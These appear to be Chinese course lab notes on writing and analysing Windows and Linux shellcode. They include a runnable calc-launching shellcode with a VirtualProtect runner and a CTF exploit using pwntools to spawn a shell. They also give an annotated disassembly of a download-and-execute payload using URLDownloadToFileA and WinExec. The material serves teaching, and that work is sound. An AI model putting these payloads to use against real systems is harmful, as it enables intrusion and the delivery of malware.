










# shellcode

## 实验目的

+ 掌握shellcode的原理

## 实验先修知识（课堂笔记）

+ 栈溢出漏洞，当向栈中的局部变量拷贝了超长的数据，覆盖了在局部变量的内存空间之后的函数返回地址。那么当函数返回的时候就会跳转到覆盖后新的地址
+ 那么跳转到新的地址后，这一段新的地址的数据，如果是可执行的一段代码。那么这段代码就会被执行。
+ 这段代码当然是需要攻击者来编写的，攻击者通过这段代码来实现攻击之后的控制等等功能。
+ 早起，黑客在攻击了一个系统以后，最常使用的控制方式是创建一个远程的shell，这要黑客就可以远程通过命令的方式控制目标计算机了。
+ 就像我们现在的ssh远程控制计算机一样。不过ssh是管理员主动开启的，黑客攻击后的shellcode是通过漏洞非法入侵后开启的。
+ 由于早期的黑客攻击后通常是开启一个shell，所以这段在缓存区溢出以后跳转执行的一段代码，就被称为shellcode。
+ 现在呢，shellcode的功能已经很多了，千奇百怪。但是总体的目的还是对远程的目标计算机进行控制。


## 实验步骤

+ 如下是一段`shellcode`代码

  ```c
  
  #include <windows.h>
  #include <stdio.h>
  
  char code[] = \
  "\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
  "\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
  "\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
  "\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
  "\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
  "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
  "\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
  "\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
  "\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
  "\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
  "\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
  "\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
  "\x52\xff\xd0";
  
  int main(int argc, char** argv)
  {
      int (*func)();
      func = (int(*)()) code;
      (int)(*func)();
  }
  ```

+ 这个shellcode的功能是运行一个计算器程序。

+ 这个是白帽子黑客们在编写PoC时最常使用的一种方法。能证明系统被控制，因为如果能悄无声息的运行计算机程序，理论上来说就能运行任何程序，改一个参数的事。

+ shellcode的编写不同于我们之前学过的所有的程序开发。它有一些自己独门的技巧。

+ 今天我们先来详细解读其中的一个。上面一段就是可运行的shellcode了。

+ 然后下面的main函数，是吧这个code运行起来。

  ```c
  int main(int argc, char** argv)
  {
      int (*func)();
      func = (int(*)()) code;
      (int)(*func)();
  }
  ```

+ 这一段代码用到了一个较为高级的C语言语法，函数指针。定义了一个函数指针变量，func。这个函数指针的变量类型是 int(*)(),表示返回值是int，参数列表为空的一个函数。在main函数的第二行，把全局变量 code 赋值给 func。并强制类型转换为 int(*)() 类型的函数指针。这样 func就有值了。就可以被调用了，由于func所指向的地址，就是code的地址，所有调用func的时候，运行的就是 code里面的那一堆二进制代码。

+ 现在VS中建一个空工程，把###########后整个C语言部分复制到VS中。然后编译，运行。

+ 不出意外的话，会遇到一个错误。

  

+ 这个错误，表示你当前访问了一个未分配的内存地址。或者，所访问的内存地址的保护属性冲突。比如如果内存的保护属性是 readonly，但是你写入了，那么也会引起这个访问异常错误。

+ 下断点运行时发现是在运行 (int)(*func)() 时出错的。这一行是干什么呢？是调用 func执行，而现在func是指向code的，也就是func的值是code的内存地址。因为它是全局变量，在程序运行起来后，就存在内存中，是进程的初始化过程就完成了内存分配，并由进程初始化程序从可执行文件中直接载入内存的。全局变量，肯定是有效地址，是可以访问的。由于code是全局变量，是数据，通常情况下，会给数据设置可读和可写的内存保护属性，但是一般不会给执行属性。但是我们要去执行它，所以可能引发了异常。

+ 我们再来验证一下。调试窗口 右键转到反汇编。现在是 停留在 call func这里，F11单步步入执行。现在到达这里，再F11。异常出现了。

  

+ 这里`0x000AA000 ` 就是code的第一个字节的位置。

+ 怎么修改这个错误呢？修改内存保护属性。怎么修改呢？VirtualProtect,改一下代码如下

  ```c
  int main(int argc, char** argv)
  {
   int (*func)();
   DWORD dwOldProtect;
   func = (int(*)()) code;
   VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
   (int)(*func)();
  }
  ```

+ 运行上述代码，出现如下结果

  

+ 解释一下代码，VirtualProtect 函数会把第一个参数，这里是 func，所指向的内存地址的 第二个参数，这里是 sizeof(code)，这段内存区域所在分页的内存属性修改为第三个参数的属性。PAGE_EXECUTE_READWRITE 表示这段内存，是可读可写可执行。然后 通过第四个参数 dwOldProtect 在修改之前的内存保护属性。

+ 运行了计算器程序，说明我们的shellcode运行成功了。

+ 解读这段shellcode代码呢。还是用我们的反汇编利器。这里下个断点，运行，断点命中后转到反汇编

  

+ F11单步执行，发现和源代码中的汇编部分，是一样的。

  

+ 其实，我们这段code，就是通过前面的汇编代码，编译以后直接从汇编编译以后，从可执行文件中 dump出来的。`nasm 汇编器 编译为 .o文件`

  

+ 如果我们用C语言编写一个运行计算器的程序，其实很简单。我们只需要调用一下WinExec函数，或者CreateProcess函数。如果用汇编来写，也就是几条指令的事。我们学过逆向工程的都知道 几个参数 push 入栈以后，call函数地址就可以了。就能调用函数地址。

+ 那为什么我们这段代码写的这么复杂呢？一百行左右了吧

+ 如果我们是在C语言中编写调用WinExec函数，那个call之后的WinExec函数的地址，是编译器帮我们在可执行程序的导入表中导入了。在进程初始化的过程中，系统会帮我们计算好WinExec函数的地址，然后把函数地址放在导入表中指定的位置。

+ 要意识到，我们最终是要把这代code嵌入到溢出攻击的数据中。被攻击的目标对象会有动态链接的过程吗？没有，也就是code这段代码，如果要call WinExec，那么WinExec函数在哪？没人告诉code。那就只好自己干。也就是说，shellcode，其实干了一个进程初始化的过程中，操作系统在干的事情——API函数的动态链接。也就是找到需要调用的API函数的地址。那这个问题简单啊，我们不是有GetProcAddress函数吗，这个函数就可以获得API函数的地址啊。

+ 问题又来了，GetProcAddress函数，也是一个API啊.GetProcAddress函数的地址也不知道呢，如果能调用GetProcAddress函数，那WinExec也能调了。所以任何 API地址都没有。shellcode进入到了一个完全陌生的环境。

+ 所以早期的黑客们，想了很多办法，能不能比较原始的办法，能够获得API地址。其实操作系统，也有一个加载的过程。黑客们逆向分析了Windows系统的内部代码，分析了Windows系统内部管理进程初始化相关的数据结构。发现有一个链表，管理了所有的已经加载的dll文件。

+ 这个链表，就是我们这个代码里InitOrderModuleList ,这个InitOrderModuleList 在一个称为 LDR 的数据结构里。这个LDR的数据结构，又在 PEB`进程环境块`这个数据结构里

+ 而PEB数据结构，在每个进程中，是一个固定的位置，是一个绝对的常量地址。这个地址就是fs:ebx+0x30,所以地址就可以不依赖于任何API或者其他依赖，直接用汇编代码就能访问到。从这里我们能一层层找到dll的基地址,然后再从dll的基地址，通过PE文件的数据结构，文件头，找到dll的导出表。然后再从导出表中的数据结构中，通过函数名称的比较，得到已经在内存中的函数的地址。

+ 所以代码中的循环，findFunctionAddr 的递归函数，和searchLoop。就是在遍历dll的导出表。代码中大量使用到了硬编码的偏移地址，比如就是因为上面这些说到的系统的数据结构，都是固定的结构，在每个系统中都是一样的，所以可以固定。

  

+ 通过系统中若干数据结构这种原始的访问方式，可以找到API函数。

+ 下面一个问题。shellcode中还用到了字符串。至少函数地址的名称是需要的。还有调用WinExec的参数 calc.exe，如果我们在C语言里编程，编译器会把可执行程序的代码和字符串，放在不同的地址。代码 机器指令在 text段中， 字符串在data段中。地址相差很远。而我们objdump，只取了代码段。没有取数据段，那要shellcode就太大了，而且中间可能会有很多的填充字符。而且数据地址很有可能是绝对地址。code一dump出来，放在了其他环境中执行，那么地址就变了。所以字符串，code也是找不到的。

+ 一个程序，用到字符串，可以看看字符串的地址和代码的地址，差很远。

+ 那唯一的办法，用一种什么方式，把字符串硬编码在shellcode中。让字符串，变为代码的一部分，内嵌在机器指令中。

+ 看这里，这儿636c6163和6578652e是 calc.exe的big ending 反写，压入栈以后，就形成了字符串。这样就把字符串嵌入机器指令了，作为机器指令的操作数。

  

+ 好了，有了以上基础知识，然后再给一些参考资料,能理解shellcode为什么要这么编写了。

## 课后实验

+ 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。（选择了其中一个详解）

  + 首先我们把演示程序`~/Openctf 2016-tyro_shellcode1/tyro_shellcode1`复制到32位的docker环境中并开启调试器进行调试分析。需要注意的是，由于程序带了一个很简单的反调试，在调试过程中可能会弹出如下窗口：

    

    

  + 此时点OK，在弹出的Exception handling窗口中选择No（discard）丢弃掉SIGALRM,从F5的结果上看程序使用read函数读取的输入甚至都不在栈上，而是在一片使用mmap分配出来的内存空间上。

    
    
    
    
  + 显然，我们这里随便输入的“12345678”有点问题，继续执行的话会出错。不过，当程序会把我们的输入当成指令执行，shellcode就有用武之地了。
    首先我们需要去找一个shellcode，我们希望shellcode可以打开一个shell以便于远程控制只对我们暴露了一个10001端口的docker环境，而且shellcode的大小不能超过传递给read函数的参数，即0x20=32.我们通过著名的[http://shell-storm.org](https://link.zhihu.com/?target=http%3A//shell-storm.org)的shellcode数据库`shell-storm.org/shellcode/找到了一段符合条件的shellcode`
    
  + 21个字节的执行sh的shellcode，点开一看里面还有代码和介绍。我们先不管这些介绍，把shellcode取出来
    
    
    
    
    
  + 使用pwntools库把shellcode作为输入传递给程序，尝试使用io.interactive()与程序进行交互，发现可以执行shell命令。
    
    
    
    
    
  + 当然，shell-storm上还有可以执行其他功能如关机，进程炸弹，读取/etc/passwd等的shellcode.
    
    
    
  
+ 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA

  + 所有shellcode都难以保证自己的代码被加载到哪个内存地址。shellcode要运转，特别是要读取自身代码里的数据（如病毒URL地址，要调用的函数名等常量和变量），就必须要自我定位，即获取自身在内存中的虚拟地址。一般来说，只要在执行shellcode过程中，能获取到程序当前的入口点EIP值，就能以此定位自己的代码。但是EIP值是不能直接用mov等方法获取的。为此，shellcode编写者利用了一个典型的办法，你在下面的shellcode中将会看到。

  + shellcode必须在所在进程的空间里，调用系统API函数，来完成远程下载文件并运行的目的

  + 只要API所在的dll被进程所加载，就可以通过由kernel32.dll导出的GetProcAddress来得到函数地址，进而Call之。但是，GetProcAddress本身也是一个函数，我们首先要得到它的地址啊！看起来好像进入死循环了。
    既然如此，shellcode作者就必须模拟程序加载dll的方式，为自己的shellcode代码创建一个类似的“输入表”。要得到 kernel32.dll中的GetProcAddress函数的地址，也就要读取kernel32.dll的输出表。那么，问题变成了如何定位 kernel32.dll的输出表。

  + 问题转变成了一个PE文件结构读取的问题。只要得到kernel32.dll在进程虚拟空间中的基址（DOS文件头，即MZ的位置），就可以在03CH偏 移处读到PE文件头（"PE"字样地址）相对这个DOS文件头的偏移，并计算出PE文件头地址。PE文件头结构中的78H处，就是输出表的地址了。通过检 索输出表，就可以得到GetProcAddress函数的地址的偏移量，进一步变为在虚拟空间中的入口点地址。

  + 讲到dll的基址，一个结构呼之欲出了——PEB！fs:[0x30]！

  + 其他的，看代码注释吧。不知道PEB的（我也是前两天碰巧刚知道），不知道PE文件结构的（我一直看着它看得头昏脑胀）

  + 调试环境：XP sp2 VC++6.0 将shellcode内容作为main函数里的局部变量，之后嵌入两行汇编，将其地址lea入eax后jmp eax进入了shellcode，所以下面的地址是在堆栈里。代码从解密后真正执行开始：

    ```bash
    0012FE2F E9 D5 00 00 00       jmp         0012FF09                            ;EIP入栈
    0012FE34 5A                   pop         edx                                 ;得到原EIP(0012FF0E)
    0012FE35 64 A1 30 00 00 00    mov         eax,fs:[00000030]                   ;PEB头部地址
    0012FE3B 8B 40 0C             mov         eax,dword ptr [eax+0Ch]             ;PLDR_DATA
    0012FE3E 8B 70 1C             mov         esi,dword ptr [eax+1Ch]             ;InInitializationOrderModuleList
    0012FE41 AD                   lods        dword ptr [esi]                     ;Flink,kernel32.dll的PLDR_MODULE
    0012FE42 8B 40 08             mov         eax,dword ptr [eax+8]               ;kernel32.dll的基址
    0012FE45 8B D8                mov         ebx,eax                             ;记住ebx=kernel32.dll的基址（MZ头）
    0012FE47 8B 73 3C             mov         esi,dword ptr [ebx+3Ch]             ;kernel32.dll的PE头相对MZ的偏移
    0012FE4A 8B 74 1E 78          mov         esi,dword ptr [esi+ebx+78h]         ;输出表地址
    0012FE4E 03 F3                add         esi,ebx                             ;转化成VA，记住esi=输出表VA
    0012FE50 8B 7E 20             mov         edi,dword ptr [esi+20h]             ;AddressOfNames
    0012FE53 03 FB                add         edi,ebx                             ;记住edi=AddressOfNames数组地址
    0012FE55 8B 4E 14             mov         ecx,dword ptr [esi+14h]             ;NumberOfFunctions
    0012FE58 33 ED                xor         ebp,ebp
    0012FE5A 56                   push        esi
    0012FE5B 57                   push        edi
    0012FE5C 51                   push        ecx
    0012FE5D 8B 3F                mov         edi,dword ptr [edi]                 ;首个Name的VA
    0012FE5F 03 FB                add         edi,ebx                             ;0012FF0E,ASCII "GetProcAddress"
    0012FE61 8B F2                mov         esi,edx
    0012FE63 6A 0E                push        0Eh
    0012FE65 59                   pop         ecx
    0012FE66 F3 A6                repe cmps   byte ptr [esi],byte ptr [edi]       ;比较
    0012FE68 74 08                je          0012FE72
    0012FE6A 59                   pop         ecx
    0012FE6B 5F                   pop         edi
    0012FE6C 83 C7 04             add         edi,4
    0012FE6F 45                   inc         ebp
    0012FE70 E2 E9                loop        0012FE5B                            ;循环直到找到GetProcAddress
    0012FE72 59                   pop         ecx
    0012FE73 5F                   pop         edi
    0012FE74 5E                   pop         esi
    0012FE75 8B CD                mov         ecx,ebp
    0012FE77 8B 46 24             mov         eax,dword ptr [esi+24h]             ;AddressOfNameOrdinals
    0012FE7A 03 C3                add         eax,ebx
    0012FE7C D1 E1                shl         ecx,1
    0012FE7E 03 C1                add         eax,ecx
    0012FE80 33 C9                xor         ecx,ecx
    0012FE82 66 8B 08             mov         cx,word ptr [eax]
    0012FE85 8B 46 1C             mov         eax,dword ptr [esi+1Ch]             ;AddressOfFunctions
    0012FE88 03 C3                add         eax,ebx
    0012FE8A C1 E1 02             shl         ecx,2
    0012FE8D 03 C1                add         eax,ecx                             ;根据之前找到的GetProcAddress的序数
    0012FE8F 8B 00                mov         eax,dword ptr [eax]                 ;找到GetProcAddress
    0012FE91 03 C3                add         eax,ebx
    0012FE93 8B FA                mov         edi,edx
    0012FE95 8B F7                mov         esi,edi
    0012FE97 83 C6 0E             add         esi,0Eh                             ;esi值指向GetProcAddress字串末尾
    0012FE9A 8B D0                mov         edx,eax
    0012FE9C 6A 04                push        4
    0012FE9E 59                   pop         ecx                                 ;ecx＝4，计数器，一共要loop四次
    0012FE9F E8 50 00 00 00       call        0012FEF4                            ;循环，得到了kernel32.dll中四个函数的地址，并将其保存在0012FF0E开始的10H个字节中（覆盖了原来的字符串）
    0012FEA4 83 C6 0D             add         esi,0Dh                             ;这次esi指向ASCII "urlmon"
    0012FEA7 52                   push        edx                                 ;edx=GetProcAddress地址，保护
    0012FEA8 56                   push        esi                                 ;ASCII "urlmon"
    0012FEA9 FF 57 FC             call        dword ptr [edi-4]                   ;刚刚获得的LoadLibraryA地址
    0012FEAC 5A                   pop         edx                                 ;edx=GetProcAddress地址
    0012FEAD 8B D8                mov         ebx,eax                             ;urlmon基址（handler）
    0012FEAF 6A 01                push        1
    0012FEB1 59                   pop         ecx                                 ;同样是计数
    0012FEB2 E8 3D 00 00 00       call        0012FEF4                            ;取URLDownloadToFileA地址
    0012FEB7 83 C6 13             add         esi,13h                             ;esi指向URL地址
    0012FEBA 56                   push        esi
    0012FEBB 46                   inc         esi
    0012FEBC 80 3E 80             cmp         byte ptr [esi],80h                  ;循环找后面的一个80H
    0012FEBF 75 FA                jne         0012FEBB
    0012FEC1 80 36 80             xor         byte ptr [esi],80h                  ;将其变成00H
    0012FEC4 5E                   pop         esi                                 ;pop回来，又变成指向URL地址了
    0012FEC5 83 EC 20             sub         esp,20h                             ;留一个20H的缓冲区
    0012FEC8 8B DC                mov         ebx,esp
    0012FECA 6A 20                push        20h
    0012FECC 53                   push        ebx                                 ;缓冲区地址
    0012FECD FF 57 EC             call        dword ptr [edi-14h]                 ;GetSystemDirectoryA
    0012FED0 C7 04 03 5C 61 2E 65 mov         dword ptr [ebx+eax],652E615Ch       ;eax为长度，在系统路径后加/a.exe
    0012FED7 C7 44 03 04 78 65 00 mov         dword ptr [ebx+eax+4],6578h         ;
    0012FEDF 33 C0                xor         eax,eax                             
    0012FEE1 50                   push        eax                                 ;0
    0012FEE2 50                   push        eax                                 ;0
    0012FEE3 53                   push        ebx                                 ;lpfilename
    0012FEE4 56                   push        esi                                 ;URL地址
    0012FEE5 50                   push        eax                                 ;0
    0012FEE6 FF 57 FC             call        dword ptr [edi-4]                   ;URLDownloadToFileA!!
    0012FEE9 8B DC                mov         ebx,esp                             ;ebx指向本地filename
    0012FEEB 50                   push        eax
    0012FEEC 53                   push        ebx
    0012FEED FF 57 F0             call        dword ptr [edi-10h]                 ;Winexec!
    0012FEF0 50                   push        eax                                 ;exitcode
    0012FEF1 FF 57 F4             call        dword ptr [edi-0Ch]                 ;ExitThread，完结
    ……………………………………………………………………………………………………………………………………………………
    下面是紧接着的一段，相当于子程序，获得所需函数的地址，函数名字符串从0012FF0E开始。每次取到地址后，同样会依次覆盖0012FF0E开始的空间。
    0012FEF4 33 C0                xor         eax,eax                             ;循环，使esi指向下个字符地址
    0012FEF6 AC                   lods        byte ptr [esi]
    0012FEF7 85 C0                test        eax,eax
    0012FEF9 75 F9                jne         0012FEF4
    0012FEFB 51                   push        ecx
    0012FEFC 52                   push        edx
    0012FEFD 56                   push        esi                                 ;下个字符串地址
    0012FEFE 53                   push        ebx                                 ;dll的基址
    0012FEFF FF D2                call        edx                                 ;GetProcAddress
    0012FF01 5A                   pop         edx
    0012FF02 59                   pop         ecx
    0012FF03 AB                   stos        dword ptr [edi]                     ;保存地址（会覆盖掉原来的字符串）
    0012FF04 E2 EE                loop        0012FEF4                            ;ecx是计数的
    0012FF06 33 C0                xor         eax,eax
    0012FF08 C3                   ret                                             ;获得所需函数地址，返回
    ………………………………………………………………………………………………………………………………………………………
    0012FF09 E8 26 FF FF FF       call        0012FE34
    ```

  + 从在内存中存储的顺序上，这是“代码”的最后一行，这个欺骗性的call是程序为了定位自身代码的入口点而使用的典型办法。其实同样是跳回原代码的下一句 执行，但是由于系统执行call时会先把EIP入栈，所以只要在下一句代码里pop，就可以得到被压入堆栈的EIP值，也就可以定位代码自身的位置了。这 里得到的值恰好指向这行代码紧接的“数据区”的开始。

  + 紧接着这里是“数据区”。可以看到这里保存着需要的多个函数名（包括urlmon的dll名），以及“万恶的病毒URL”。对照shellcode代码，你可以发现函数地址是怎么一个一个被找到的。
    值得一提的有两点：
    1.找到函数地址后，会把地址一个个依次写在此区的开始，也就是从0012FF0E开始的14H个字节内容将被五个函数地址所代替。
